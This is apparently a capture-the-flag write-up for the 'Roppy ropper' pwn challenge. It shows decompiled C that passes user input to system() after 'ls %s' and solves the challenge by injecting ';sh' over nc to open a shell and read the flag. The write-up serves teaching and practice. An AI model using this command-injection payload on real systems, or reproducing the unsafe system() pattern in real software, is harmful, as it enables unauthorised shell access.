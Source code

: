 ## Roppy ropper (467pt)

### Description

> I love ropes do you? 
>
> nc 35.238.225.156 1004 
>
> Author: TheBadGuy


### Attachment

[lsass](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/boot2root/pwn/lsass/lsass)

### Analysis

statically linked:

```bash
% ldd lsass 
	not a dynamic executable
```

run_command:

```c
int __cdecl run_command(char a1){
  char v2; // [esp+6h] [ebp-12h]
  snprintf(&v2, 7, "ls %s", a1);
  printf("Result: %s:\n", (unsigned int)&v2);
  return system(&v2);
}
```

we can append `sh` after `ls` with `;` to get a shell

payload: `ls ;sh`

### Solution

```bash
% nc 35.238.225.156 1004 
(list_me_like_crazy)
Is this lsass I dont understand :)
Give me your arguments:
;sh 
Result: ls ;sh:
flag.txt
lsass
cat flag.txt
b00t2root{R0p_cHa1nS_ar3_tH3_b3st}
```

> flag: b00t2root{R0p_cHa1nS_ar3_tH3_b3st}

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/boot2root/pwn/lsass) 


